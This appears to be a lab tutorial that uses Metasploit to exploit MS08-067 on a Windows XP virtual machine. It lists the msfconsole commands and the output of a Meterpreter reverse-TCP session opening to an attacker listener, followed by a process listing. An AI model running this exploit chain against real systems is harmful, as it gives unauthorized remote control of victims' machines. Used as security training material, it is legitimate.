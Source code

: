 Start Metasploit with `msfconsole` command and wait for it to start. The `help` command shows us how to use Metasploit. With the `set RHOSTS` command, we set the IP address of the computer we want to attack.

    msfconsole

    set RHOSTS 10.0.2.4

We will exploit the vulnerability [CVE-2008-4250](https://www.cvedetails.com/cve/CVE-2008-4250/) by searching for a suitable attack using the `search` command, checking if the computer is vulnerable using the command `rcheck` and then we execute the attack with the command `exploit`.

    msf6 > search ms08-067

    Matching Modules
    ================

        #  Name                                 Disclosure Date  Rank   Check  Description
        -  ----                                 ---------------  ----   -----  -----------
        0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


    Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

    msf6 > use 0
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/ms08_067_netapi) > rcheck
    [*] Reloading module...
    [+] 10.0.2.4:445 - The target is vulnerable.
    msf6 exploit(windows/smb/ms08_067_netapi) > exploit

    [*] Started reverse TCP handler on 10.0.2.15:4444 
    [*] 10.0.2.4:445 - Automatically detecting the target...
    [*] 10.0.2.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
    [*] 10.0.2.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
    [*] 10.0.2.4:445 - Attempting to trigger the vulnerability...
    [*] Sending stage (175686 bytes) to 10.0.2.4
    [*] Meterpreter session 1 opened (10.0.2.15:4444 -> 10.0.2.4:1049) at 2023-05-09 14:36:39 +0200

    meterpreter > 

We are now connected to the `WindowsXP` virtual computer using the command line. The `ps` command can be used to list all processes currently running on the system.

    meterpreter > ps

    Process List
    ============

    PID   PPID  Name              Arch  Session  User                         Path
    ---   ----  ----              ----  -------  ----                         ----
    0     0     [System Process]
    4     0     System            x86   0        NT AUTHORITY\SYSTEM
    176   984   wuauclt.exe       x86   0        WORKGROU-8E8989\user         C:\WINDOWS\system32\wuauclt.
                                                                            exe
    508   4     smss.exe          x86   0        NT AUTHORITY\SYSTEM          \SystemRoot\System32\smss.ex
                                                                            e
    572   508   csrss.exe         x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\csrs
                                                                            s.exe
    596   508   winlogon.exe      x86   0        NT AUTHORITY\SYSTEM          \??\C:\WINDOWS\system32\winl
                                                                            ogon.exe